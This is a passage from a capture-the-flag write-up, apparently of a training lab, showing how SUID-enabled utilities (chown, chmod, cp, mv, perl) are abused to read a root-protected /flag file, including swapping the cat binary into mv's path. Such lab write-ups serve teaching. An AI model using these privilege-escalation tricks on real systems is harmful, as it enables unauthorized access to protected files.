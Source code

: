 ```bash
chown hacker /flag
cat /flag
```

### level38

This time we are using `chmod`.

The plan is to change the read permission of others and simply `cat` the flag.

```bash
chmod o=r /flag
cat /flag
```

### level39

This time we are using `cp`.

It is a famous utility that lets us to copy files. I tried making a copy of `/flag`, but it seems that the copy also inherits the same permissions as the original. However, copying the contents of `/flag` into another file can bypass that. 

```bash
touch a.txt
cp /flag a.txt
cat a.txt
```

### level40

This time we are using `mv`.

Another very interesting level. I was stuck for a couple of minutes looking through the man page to find a way to display a file using `mv`. However, such feature does not exist in `mv`. What is possible however, is run the challenge binary to set the SUID for `/usr/bin/mv`, and use the root privilege to change the name of `/usr/bin/cat` program to `/usr/bin/mv`! Then run the challenge binary once again to set the SUID of `mv` (which is actually `cat`).

```bash
mv /usr/bin/cat /usr/bin/mv
/challenge/babysuid_level40
mv /flag
```

### level41

This time we are using `perl`.

We can run a simple `perl` programs with `-e` commandline option. As I am not very familiar with `perl`, I googled and found this:

```bash
perl -n -e 'print "$. - $_"' /flag
```

### level42
